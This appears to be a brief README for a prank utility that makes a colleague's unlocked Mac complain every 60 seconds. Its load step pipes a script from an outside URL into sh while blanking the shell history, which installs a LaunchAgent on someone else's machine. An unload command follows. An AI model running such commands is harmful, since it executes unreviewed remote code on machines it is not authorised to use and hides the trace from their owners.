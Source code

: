 Your colleague is leaving their mac unlocked?

Make the computer complain every 60 seconds!

# Load

```
$ HISTFILE=/dev/null curl -L http://please.lock.me.uk | sh
```

# Unload

```
$ launchctl unload ~/Library/LaunchAgents/lock.me.uk.plist
```

